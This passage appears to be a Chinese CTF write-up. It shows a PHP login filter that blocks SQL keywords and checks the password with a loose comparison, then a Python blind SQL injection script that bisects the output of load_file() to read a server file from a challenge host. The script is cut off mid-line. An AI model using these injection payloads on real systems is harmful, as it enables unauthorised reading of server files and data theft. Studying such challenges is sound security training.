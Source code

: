返回逻辑

```
  //用户名检测
  if(preg_match('/select|and| |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\x26|\x7c|or|into|from|where|join|sleep|benchmark/i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }
  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }
  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }
```

### 思路

读数据 load_file()

```python
# Author：Y4tacker
import requests

url = "http://a1430f6e-9b7d-4a1d-a49a-597cabb6f356.challenge.ctf.show/api/"


def getFlagIndex():
    head = 1
    tail = 300
    while head < tail:
        mid = (head + tail) >> 1
        data = {
            'username': "if(locate('ctfshow{'," + "load_file('/var/www/html/api/index.php'))>{0},0,1)".format(str(mid)),
            'password': '1'
        }
        r = requests.post(url, data=data)
        if "密码错误" == r.json()['msg']:
            head = mid + 1
        else:
            tail = mid
    return mid


def getFlag(num):
    i = int(num)
    result = ""
    while 1:
        head = 32
        tail = 127

        i = i + 1
        while head < tail:
            mid = (head + tail) >> 1
            data = {
                'username': "if(ascii(substr(load_file('/var/www/html/api/index.php'),{0},1))>{1},0,1)".format(str(i),
                                                                                                               str(
```